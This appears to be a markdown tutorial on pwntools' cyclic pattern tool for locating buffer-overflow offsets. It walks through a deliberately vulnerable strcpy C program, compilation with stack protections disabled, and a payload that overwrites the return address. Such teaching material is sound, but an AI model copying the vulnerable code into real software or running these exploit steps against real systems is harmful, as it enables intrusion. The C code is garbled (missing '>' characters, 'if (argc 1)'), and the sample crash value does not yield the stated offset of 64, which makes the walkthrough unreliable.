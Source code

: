 # Pwn cyclic


# 👉 Overview

---

### 👀 What ?

Pwn cyclic is a technique used in cybersecurity for exploiting buffer overflow vulnerabilities. Buffer overflow is a common security issue where a program writes more data to a buffer than it can handle, which can overwrite adjacent memory areas. Pwn cyclic is a tool that can generate, search and slice cyclic patterns, which are patterns of distinct values that can be used to identify the exact location of buffer overflow.


### 🧐 Why ?

Understanding Pwn cyclic is crucial for both cybersecurity professionals and software developers. For cybersecurity professionals, it's a powerful tool for identifying and exploiting vulnerabilities in software systems. For developers, understanding this technique can help them write more secure code by identifying potential buffer overflow vulnerabilities and ensuring their programs handle input data correctly. This knowledge is essential for anyone interested in maintaining secure systems.


### ⛏️ How ?

To use Pwn cyclic, you first need to generate a cyclic pattern with a specified length. You can do this with the 'cyclic' function in the Pwn library. After an overflow occurs, you can use the 'cyclic_find' function to identify the exact location of the overflow. This allows you to pinpoint the exact place in the code where the overflow happened, making it easier to develop an exploit or fix the vulnerability.


### ⏳ When ?

Pwn cyclic has been around for several years, and it has become an important tool in the toolkit of many cybersecurity professionals. Its use is particularly common in the field of penetration testing, where it is used to identify and exploit vulnerabilities in software systems.


# ⚙️ Technical Explanations

---

### Overview

Pwn cyclic is a tool used in exploit development to identify the exact location of a buffer overflow. It generates a sequence of unique patterns, which can be inputted into a program. If the program crashes due to a buffer overflow, the crash dump will contain part of this unique pattern. By analyzing the crash dump, you can pinpoint the exact offset where the buffer overflow occurred. This method is effective because each subset of the cyclic pattern is unique, allowing precise identification of the overflow point.

### Steps to Use Pwn Cyclic

### Step 1: Generate a Unique Pattern

The first step is to generate a unique pattern using `cyclic` from the pwntools library. This pattern is designed so that every subset is unique.

```python
from pwn import *

pattern = cyclic(100)
print(pattern)

```

This generates a 100-byte long pattern.

### Step 2: Input the Pattern into the Program

Next, you input the generated pattern into the vulnerable program. This can be done by various means depending on the program's input method (e.g., command-line argument, environment variable, network input).

```bash
./vulnerable_program $(python -c 'from pwn import *; print(cyclic(100))')

```

### Step 3: Analyze the Crash Dump

When the program crashes, the crash dump (e.g., core dump) will contain part of the cyclic pattern. You need to locate the exact part of the pattern present in the crash dump.

### Step 4: Identify the Offset

Using the pattern found in the crash dump, you can determine the exact offset of the buffer overflow using `cyclic_find`.

```python
from pwn import *

# Example pattern from crash dump
crash_pattern = b'aaab'

offset = cyclic_find(crash_pattern)
print(f"The offset is {offset}")

```

This will output the exact offset where the buffer overflow occurred.

### Full Example

Consider a vulnerable program that reads input into a fixed-size buffer without checking the length. Here is a simplified example:

```c
#include <stdio.h
#include <string.h

void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // Vulnerable to buffer overflow
}

int main(int argc, char *argv[]) {
    if (argc 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}

```

### Step-by-Step Process

1. **Compile the Program**:
    
    ```bash
    gcc -o vulnerable_program vulnerable_program.c -fno-stack-protector -z execstack
    
    ```
    
2. **Generate a Unique Pattern**:
    
    ```python
    from pwn import *
    
    pattern = cyclic(100)
    print(pattern)
    
    ```
    
3. **Run the Program with the Pattern**:
    
    ```bash
    ./vulnerable_program $(python -c 'from pwn import *; print(cyclic(100))')
    
    ```
    
4. **Analyze the Crash Dump**:
    - The program will crash, and you need to find the pattern in the crash dump. Assuming the crash dumps the EIP register:
        
        ```
        Segmentation fault at EIP: 0x61616162
        
        ```
        
5. **Identify the Offset**:
    
    ```python
    from pwn import *
    
    crash_pattern = 0x61616162  # The value from the crash dump
    offset = cyclic_find(crash_pattern)
    print(f"The offset is {offset}")
    
    ```
    
    - This will output:
        
        ```
        The offset is 64
        
        ```
        
6. **Develop the Exploit**:
    - With the offset known, you can craft a payload to exploit the buffer overflow, for example, by overwriting the return address.
    
    ```python
    from pwn import *
    
    offset = 64
    new_return_address = p32(0xdeadbeef)  # Example address
    
    payload = cyclic(offset) + new_return_address
    print(payload)
    
    ```
    
    - Run the program with the crafted payload:
        
        ```bash
        ./vulnerable_program $(python -c 'from pwn import *; print(cyclic(64) + p32(0xdeadbeef))')
        
        ```
        

### Conclusion

Pwn cyclic is an essential tool in exploit development for accurately identifying the location of a buffer overflow. By generating unique patterns and analyzing crash dumps, you can precisely determine the offset of the overflow, facilitating the development of reliable exploits. This method highlights the importance of understanding memory layout and the impact of improper input handling in programs.

# 🖇️ Références

---

- [https://docs.pwntools.com/en/latest/util/cyclic.html](https://docs.pwntools.com/en/latest/util/cyclic.html)